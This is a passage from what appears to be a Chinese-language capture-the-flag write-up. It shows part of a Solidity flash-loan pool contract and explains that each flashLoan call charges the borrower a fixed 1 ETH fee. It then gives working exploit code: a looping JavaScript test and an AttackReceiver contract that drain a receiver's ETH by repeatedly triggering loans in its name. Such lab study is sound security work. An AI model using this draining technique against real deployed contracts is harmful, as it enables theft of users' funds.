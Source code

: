 ```
        // Transfer ETH and handle control to receiver
        (bool success, ) = borrower.call`{`value: borrowAmount`}`(
            abi.encodeWithSignature(
                "receiveEther(uint256)",
                FIXED_FEE
            )
        );
        require(success, "External call failed");

        require(
            address(this).balance &gt;= balanceBefore.add(FIXED_FEE),
            "Flash loan hasn't been paid back"
        );
    `}`

    // Allow deposits of ETH
    receive () external payable `{``}`
`}`
```

很明显调用一次 `flashLoan()` 就可以让合约账户减少 1 ETH，那么持续调用即可顺利清空合约：

```
it('Exploit', async function () `{`
    while(await balance.current(this.receiver.address) &gt; 0) `{`
        await this.pool.flashLoan(this.receiver.address, 0);
    `}`
`}`);
```

不过单次交易的方法需要更长的时间，更简单的方法是直接写一个攻击的合约并调用：

```
pragma solidity ^0.6.0;

contract AttackReceiver `{`
    function attack(address payable pool, address payable receiver) public `{`
        while(receiver.balance &gt; 0) `{`
            (bool success, ) = pool.call(
                abi.encodeWithSignature(
                    "flashLoan(address,uint256)",
                    receiver,
                    0
                )
            );
            require(success, "External call failed");
        `}`
    `}`

`}`
```

```
const AttackReceiver = contract.fromArtifact('AttackReceiver');

it('Exploit', async function () `{`
    const attack = await AttackReceiver.new();
    await attack.attack(this.pool.address, this.receiver.address, `{` from: attacker `}`);
`}`
```

